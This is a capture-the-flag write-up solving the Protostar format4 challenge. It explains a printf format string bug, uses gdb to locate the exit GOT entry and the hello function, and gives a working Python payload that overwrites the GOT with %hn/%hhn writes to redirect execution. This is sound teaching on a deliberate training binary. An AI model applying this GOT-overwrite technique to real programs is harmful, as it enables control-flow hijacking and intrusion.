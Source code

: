 Our goal is to solve this explotation challenge <i> [format4](https://exploit.education/protostar/format-four/)</i>


# Code to exploit 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}

```
## Problem of code

This is a Format string exploit challenge .
The code passes a string to printf with wrong format.

If the user passes as argv[1] a string like "%x %x %x %x %x" he can read 5 words from the stack 


```c
	#https://owasp.org/www-community/attacks/Format_string_attack

	// This line is safe
	printf("%s\n", argv[1]);

	// This line is vulnerable
	printf(argv[1]);

```

Our goal will be to change the entry of exit function  in global offset table by using %n arguement in vuln-printf.
We want to redirect exit to the function Hello.



We will use gdb to find relevant addresses.

Address of Hello fucntion:

```c
(gdb) disassemble hello
Dump of assembler code for function hello:
0x080484b4 <hello+0>:   push   %ebp
0x080484b5 <hello+1>:   mov    %esp,%ebp

```
Address of exit:

```c
(gdb) disassemble vuln
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:    push   %ebp
0x080484d3 <vuln+1>:    mov    %esp,%ebp
0x080484d5 <vuln+3>:    sub    $0x218,%esp
0x080484db <vuln+9>:    mov    0x8049730,%eax
0x080484e0 <vuln+14>:   mov    %eax,0x8(%esp)
0x080484e4 <vuln+18>:   movl   $0x200,0x4(%esp)
0x080484ec <vuln+26>:   lea    -0x208(%ebp),%eax
0x080484f2 <vuln+32>:   mov    %eax,(%esp)
0x080484f5 <vuln+35>:   call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:   lea    -0x208(%ebp),%eax
0x08048500 <vuln+46>:   mov    %eax,(%esp)
0x08048503 <vuln+49>:   call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:   movl   $0x1,(%esp)
0x0804850f <vuln+61>:   call   0x80483ec <exit@plt>

disassemble 0x80483ec
Dump of assembler code for function exit@plt:
0x080483ec <exit@plt+0>:        jmp    *0x8049724
0x080483f2 <exit@plt+6>:        push   $0x30
0x080483f7 <exit@plt+11>:       jmp    0x804837c
End of assembler dump.

(gdb) x 0x8049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x080483f2


```
We want to change the address located in 0x8049724, with the address of hello

```
(gdb) x 0x8049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x080484b4

```


And then with this python code we will do the final explotation

```python
import struct

HELLO_ADDR = struct.pack("I",0x080484b4)

OFFSET = "TTTT"

EXIT_GOT_ADDR = struct.pack("I", 0x8049724)
EXIT_GOT_2_ADDR = struct.pack("I", 0x8049724+1)
EXIT_GOT_3_ADDR = struct.pack("I", 0x8049724+2)
EXIT_GOT_4_ADDR = struct.pack("I", 0x8049724+3)

#we make printf print 33950 characters so the next %n will give the wanted value to EXIT_GOT


#Use any of these 2 exploit strings
#exploit = EXIT_GOT_3_ADDR + EXIT_GOT_ADDR + "%x %x %2030x %hn %31918x %5$hn"
exploit = EXIT_GOT_2_ADDR + EXIT_GOT_ADDR + "%x %x %110x %hhn %46x %5$hhn"

# %hhn means printf will write 1 bytes instead of 4
# %hn means printf will write 2 bytes instead of 4


print exploit
```


Finally we run like this 

```
user@protostar:~$ python /tmp/format.py | /opt/protostar/bin/format4
%$200 b7fd8420                                                                                                       bffff504                                         8049724 
code execution redirected! you win
```
